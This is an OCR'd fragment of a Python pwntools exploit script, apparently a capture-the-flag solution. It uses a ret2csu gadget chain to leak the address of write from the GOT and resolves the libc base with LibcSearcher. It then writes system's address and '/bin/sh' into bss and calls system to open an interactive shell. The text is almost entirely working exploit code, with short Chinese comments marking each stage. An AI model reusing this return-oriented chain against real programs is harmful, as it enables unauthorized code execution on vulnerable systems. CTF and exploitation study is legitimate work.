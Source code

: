 ```python

	return pay



pay=csu(0x0000000000400606,0x0000000004005F0,0x80,0,1,e.got['write'],1,e.got['write'],8,e.symbols['main'])#write打印实际的地址



x=p.recvline()
print(x+'this one')


p.sendline(pay)
sleep(3)

puts_real=p.recv(8)

libc = LibcSearcher('write', u64(puts_real))
libcbase =u64(puts_real) - libc.dump('write')

system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')
binsh="/bin/sh\n"
sleep(1)
pay=csu(0x0000000000400606,0x0000000004005F0,0x80,0,1,e.got['read'],0,bss_addr,16,e.symbols['main'])#read将sehll写入
print(p.recvline()+'this two')
#gdb.attach(p,'b main')

p.sendline(pay)
sleep(2)

p.send(p64(system_addr)+"/bin/sh\0")

print(len(p64(system_addr)+"/bin/sh\0"))
sleep(2)

pay=csu(0x0000000000400606,0x0000000004005F0,0x80,0,1,bss_addr,bss_addr+8,0,0,e.symbols['main'])#调用shell

sleep(2)
p.send(pay)
sleep(2)
print(p.recvline()+'this three')
#gdb.attach(p,'b main')

p.interactive()

```
